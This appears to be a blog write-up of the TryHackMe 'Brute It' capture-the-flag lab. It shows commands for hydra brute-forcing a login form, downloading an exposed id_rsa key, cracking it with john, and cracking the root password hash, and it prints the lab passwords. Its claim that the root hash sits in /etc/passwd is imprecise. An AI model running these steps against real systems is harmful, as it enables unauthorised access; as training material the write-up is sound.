```yaml
---
title: TryHackMe - Brute It
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, brute, ssh, http, gobuster, john, crack,SUID]
img_path: /assets/img/Brute_It
image:
    path: 0.png
---
```


# Brute It

Learn how to brute, hash cracking and escalate privileges in this box!
- Brute-force
- Hash cracking
- Privilege escalation

# nmap

## ip = `10.10.40.7`

```sh
 nmap -sV -sC -A -v 10.10.40.7
 ```
 
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
| 256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_ 256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## To Do list
- visit he site
- surf around
- View the source code
- visit robots.txt
- run gobuster


## The site
![](/assets/img/Brute_It/1.png)

## gobuster
```sh
 gobuster dir -u http://10.10.40.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

`/admin`  
![](/assets/img/Brute_It/2.png)

## /admin/source code
![](/assets/img/Brute_It/3.png)

Details Acquired
-------------------
user = john  
username = admin  
password = ???  

# Brute force

Here we can brute force the login page using the details gotten.  
we use hydra.  

```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.40.7 http-post-form "/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid"
```
![](/assets/img/Brute_It/4.png)

now we have:  
username = `admin`  
password = `xavier`  

We login!  
![](/assets/img/Brute_It/5.png)
Let's download the rsa key

```sh
 wget http://10.10.40.7/admin/panel/id_rsa
```
brute force using john
```sh
ssh2john id_rsa > forjohn
john forjohn.txt --format="SSH" --wordlist=/usr/share/wordlists/rockyou.txt
```
![](/assets/img/Brute_It/6.png)

Details Acquired
-----------------------------------------------------
user = `john`  
`id_rsa`  
password = `rockinroll`  

Let's jump to ssh port 22  

```sh
 ssh -i id_rsa john@10.10.40.7
#passphrase = rockinroll
```

![](/assets/img/Brute_It/7.png)


# privilege escalation

## sudo -l
![](/assets/img/Brute_It/8.png)

We get that we can read the `/etc/passwd` file where we can get the root hash,crack it and get the root password.  
Decrypt the hash using sir john
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt roothash.txt
```
